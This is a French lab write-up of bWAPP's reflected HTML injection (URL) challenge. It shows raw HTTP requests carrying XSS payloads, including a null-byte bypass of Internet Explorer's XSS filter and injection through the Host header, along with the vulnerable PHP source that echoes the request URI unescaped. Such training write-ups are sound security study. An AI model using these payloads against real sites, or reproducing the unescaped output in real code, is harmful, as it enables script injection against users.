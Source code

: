 # Niveau "Low"

## Exploitation

L'URL est ici réfléchie au sein de la page en utilisant la méthode HTTP `GET` :&#x20;

```http
GET /bWAPP/htmli_current_url.php?parametre=valeur HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: security_level=0; PHPSESSID=2f4611482fb97564af7dbe4243dca828
Connection: close
```

![](<../../../../../.gitbook/assets/image (23) (1) (1) (1) (1).png>)

En PHP, la récupération de l'URL peut s'effectuer grâce aux variables `$_SERVER["REQUEST_URI"]` ou `$_SERVER["QUERYSTRING"]` par exemple (le fonctionnement est différent pour les variables types `$_GET` ou `$_POST` et autres équivalents). Dans le premier cas, les navigateurs récents encodent l'URL avant de la transmettre à l'application qui rend les tentatives d'injections HTML et XSS inefficaces :&#x20;

```http
GET /bWAPP/htmli_current_url.php?parametre=%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: security_level=0; PHPSESSID=2f4611482fb97564af7dbe4243dca828
Connection: close
```

![](<../../../../../.gitbook/assets/image (15) (1) (2).png>)

Internet Explorer 11 n'effectue pas cet encodage sur les nom et valeur des paramètres d'URL, par contre il possède un filtre anti-XSS pouvant empêcher l'exécution de script malicieux :&#x20;

![](<../../../../../.gitbook/assets/image (27) (1) (1) (1).png>)

Il existe un contournement fonctionnel sur IE permettant tout de même d'exécuter le code :&#x20;

```http
GET /bWAPP/htmli_current_url.php?parametre=<script/%00%00v%00%00>alert('XSS')</script> HTTP/1.1
Accept: text/html, application/xhtml+xml, image/jxr, */*
Host: 192.168.56.116
Cookie: PHPSESSID=5259cd672a0fb988f6f618b8527b1a8c; security_level=0
Connection: close
```

![](<../../../../../.gitbook/assets/image (10) (1).png>)

Il est tout de même possible d'exploiter la vulnérabilité sur un navigateur récent mais ne sera que très difficilement exécutable dans le contexte de la victime. Pour cela, il faut utiliser la modification de requête grâce à un proxy, ici Burp en mode interception :&#x20;

![](<../../../../../.gitbook/assets/image (13) (1) (2).png>)

![](<../../../../../.gitbook/assets/image (2) (2).png>)

## Analyse du code source

L'application affiche le contenu de la variable `$url` au d'une balise `<i></i>` :

{% code title="htmli_current_url.php" %}
```php
<div id="man">
  <h1>HTML Injection - Reflected (URL)</h1>
  <?php echo "<p align=\"left\">Your current URL: <i>" . $url . "</i></p>";?>
</div>
```
{% endcode %}

La variable `$url` est construite de la manière suivante :&#x20;

{% code title="htmli_current_url.php" %}
```php
$url= "";

switch($_COOKIE["security_level"]) {
  case "0" :
    // $url = "http://" . $_SERVER["HTTP_HOST"] . urldecode($_SERVER["REQUEST_URI"]);
    $url = "http://" . $_SERVER["HTTP_HOST"] . $_SERVER["REQUEST_URI"];
    break;
  case "1" :
    $url = "<script>document.write(document.URL)</script>";
    break;
  case "2" :
    $url = "http://" . $_SERVER["HTTP_HOST"] . xss_check_3($_SERVER["REQUEST_URI"]);
    break;
  default :
    // $url = "http://" . $_SERVER["HTTP_HOST"] . urldecode($_SERVER["REQUEST_URI"]);
    $url = "http://" . $_SERVER["HTTP_HOST"] . $_SERVER["REQUEST_URI"];
    break;
}
```
{% endcode %}

Le level "Low" correspond à la valeur 0, c'est à dire qu'ici, la variable `$url` est construite de la façon suivante :

```php
$url = "http://" . $_SERVER["HTTP_HOST"] . $_SERVER["REQUEST_URI"];
```

La variable permettant la récupération de l'URL était bien celle identifiée dans la phase d'exploitation. A noter qu'il est également possible d'injecter le code HTML/Javascript au sein de l'entête HTTP `Host` dont la valeur sera récupérée par la variable PHP `$_SERVER["HTTP_HOST"]` :&#x20;

![](<../../../../../.gitbook/assets/image (28) (1) (1).png>)

![](<../../../../../.gitbook/assets/image (18) (1).png>)

{% hint style="warning" %}
Le jeu de caractères possible dans l'entête HTTP Host est limité.
{% endhint %}

